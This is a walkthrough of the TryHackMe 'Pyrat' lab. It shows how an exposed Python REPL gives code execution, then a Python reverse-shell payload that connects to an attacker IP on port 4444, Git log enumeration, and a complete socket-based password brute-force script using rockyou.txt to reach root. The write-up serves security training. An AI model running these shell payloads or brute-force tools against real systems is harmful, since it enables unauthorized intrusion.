

# 🐍 TryHackMe: Pyrat – Full Walkthrough (redacted)

## 📝 Room Overview

- **Theme** → Exploiting a Python REPL service & Git repository leaks
- **Difficulty** → Medium
- **Skills exercised** → Enumeration, reverse shells, Git forensics, password brute-forcing
- **Platform** → TryHackMe

---

## ⚡ Methodology

### 🔍 1. Reconnaissance

Performed a full port scan to identify services:

```bash
nmap -sC -sV -p- 10.10.34.172

```

📸 *Screenshot of Nmap Scan*


---

### 🐚 2. Initial Foothold (Python REPL)

The HTTP server exposed a Python REPL environment. I tested execution with:

```python

print("Hello World")
Hello World

shell
$whoami
```

This confirmed code execution as `www-data`.

📸 *Screenshot of REPL shell*



---

### 🎯 3. Reverse Shell

Payload used to gain a reverse shell:

```python
import socket,os
s=socket.socket()
s.connect(("10.10.0.81",4444))  #  Your/AttackBox IP
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
os.system("/bin/sh")

# Used in Python REPL

```

Listener setup:

```bash
nc -lvnp 4444

```

📸 *Reverse shell established*


---

### 📂 4. Git Enumeration

Inside `/opt/dev/.git/logs/refs/` I examined the commit history:

```bash
cd heads
ls -la
cat master

```

This revealed a commit with the following message:

```
commit (initial): Added shell endpoint
Author: Jose Mario <josemlwdf@github.com>

```

 📸*Screenshot of Git log*


🔑 **Analysis:**

- The commit message explicitly mentioned **“Added shell endpoint.”**
- This was a strong hint that the application exposed hidden functionality (likely via commands/endpoints like `shell`).
- From this, I inferred that there could be other developer-added endpoints (e.g., `admin`).

---

### 🔍 Takeaway

By reading the Git commit logs, I discovered **keywords used as commands in the custom Python REPL service**:

- `shell` → spawned a system shell.
- `admin` → prompted for a password (which I later brute-forced).

---

### 🔑 5. Admin Endpoint Discovery

Endpoints tested:

- `shell` → Spawns system shell
- `admin` → Prompts for password

Other endpoints (`backup`, `help`, `login`, etc.) returned *undefined*.

📸 *Screenshot of Admin endpoint* 


---

### 💣 6. Password Brute-Force

I wrote a fuzzing script (`fuzzy_admin.py`) to brute-force the `admin` endpoint with **rockyou.txt**.

```python
import socket

# Configuration
target_ip = "10.10.34.172"   # <-- change to your target IP
target_port = 8000
password_wordlist = "/usr/share/wordlists/rockyou.txt"  # <-- path to your wordlist

def connect_and_send_password(password):
    try:
        client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        client_socket.connect((target_ip, target_port))
        client_socket.sendall(b'admin\n')

        response = client_socket.recv(1024).decode(errors="ignore")

        if "Password" in response:
            print(f"[*] Trying password: {password}")
            client_socket.sendall(password.encode() + b"\n")

            response = client_socket.recv(1024).decode(errors="ignore")

            # success condition
            if "success" in response.lower() or "shell" in response.lower() or "admin" in response.lower():
                print(f"[+] Correct password found: {password}")
                print(f"[+] Server response: {response}")
                return True

        return False

    except Exception as e:
        print(f"[!] Error: {e}")
        return False

    finally:
        client_socket.close()

def fuzz_passwords():
    with open(password_wordlist, "r", encoding="latin-1") as file:
        for password in file:
            password = password.strip()
            if connect_and_send_password(password):
                return password   # stop once found
    return None

if __name__ == "__main__":
    found = fuzz_passwords()
    if found:
        print(f"\n[+] Final result: admin:{found}")
    else:
        print("[-] No valid password found.")

```

✅ The password was found → ******

📸 *Fuzzing output screenshot*


---

### 👑 7. Root Access

Connected as `admin`:

```bash
nc <TARGET_IP> 8000

```

Input:

```
admin
password: ******

```

Spawned shell:

```
shell

```

Verified root:

```bash
whoami
pwd
ls -la
cat /root/root.txt

```

📸 *Root flag screenshot*


---

## 🎓 Lessons Learned

- Python REPL exposure = critical risk.
- Git commit history often leaks credentials or endpoints.
- Weak passwords still exist in real-world systems.

---

## 🚩 Flags

- **User Flag** → `REDACTED`
- **Root Flag** → `REDACTED`